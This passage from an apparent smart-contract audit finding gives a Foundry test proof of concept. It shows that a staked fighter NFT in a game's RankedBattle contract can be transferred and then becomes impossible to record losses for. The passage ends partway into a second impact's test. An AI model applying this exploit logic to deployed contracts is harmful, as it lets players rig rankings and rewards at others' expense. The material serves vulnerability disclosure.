## Proof of Concept
Impact 1: a fighter becomes unstoppable, game server unable to commit
```diff
diff --git a/test/RankedBattle.t.sol b/test/RankedBattle.t.sol
index 6c5a1d7..dfaaad4 100644
--- a/test/RankedBattle.t.sol
+++ b/test/RankedBattle.t.sol
@@ -465,6 +465,31 @@ contract RankedBattleTest is Test {
         assertEq(unclaimedNRN, 5000 * 10 ** 18);
     }
 
+   /// @notice An exploit demonstrating that it's possible to transfer a staked fighter, and make it immortal!
+    function testExploitTransferStakedFighterAndPlay() public {
+        address player = vm.addr(3);
+        address otherPlayer = vm.addr(4);
+        _mintFromMergingPool(player);
+        uint8 tokenId = 0;
+        _fundUserWith4kNeuronByTreasury(player);
+        vm.prank(player);
+        _rankedBattleContract.stakeNRN(1 * 10 ** 18, tokenId);
+        // The fighter wins one battle
+        vm.prank(address(_GAME_SERVER_ADDRESS));
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 0, 1500, true);
+        // The player transfers the fighter to other player
+        vm.prank(address(player));
+        _fighterFarmContract.safeTransferFrom(player, otherPlayer, tokenId, "");
+        assertEq(_fighterFarmContract.ownerOf(tokenId), otherPlayer);
+        // The fighter can't lose
+        vm.prank(address(_GAME_SERVER_ADDRESS));
+        vm.expectRevert();
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 2, 1500, true);
+        // The fighter can only win: it's unstoppable!
+        vm.prank(address(_GAME_SERVER_ADDRESS));
+        _rankedBattleContract.updateBattleRecord(tokenId, 0, 0, 1500, true);
+    }
+
     /*//////////////////////////////////////////////////////////////
                                HELPERS
     //////////////////////////////////////////////////////////////*/
```
Place the PoC into test/RankedBattle.t.sol, and execute with
```shell
forge test --match-test testExploitTransferStakedFighterAndPlay
```
Impact 2: another fighter can't win, game server unable to commit
```diff
diff --git a/test/RankedBattle.t.sol b/test/RankedBattle.t.sol
index 6c5a1d7..196e3a0 100644
--- a/test/RankedBattle.t.sol
+++ b/test/RankedBattle.t.sol
@@ -465,6 +465,62 @@ contract RankedBattleTest is Test {
         assertEq(unclaimedNRN, 5000 * 10 ** 18);
     }
 
+/// @notice Prepare two players and two fighters
+function preparePlayersAndFighters() public returns (address, address, uint8, uint8) {
+    address player1 = vm.addr(3);
+    _mintFromMergingPool(player1);
+    uint8 fighter1 = 0;
+    _fundUserWith4kNeuronByTreasury(player1);
+    address player2 = vm.addr(4);
+    _mintFromMergingPool(player2);
```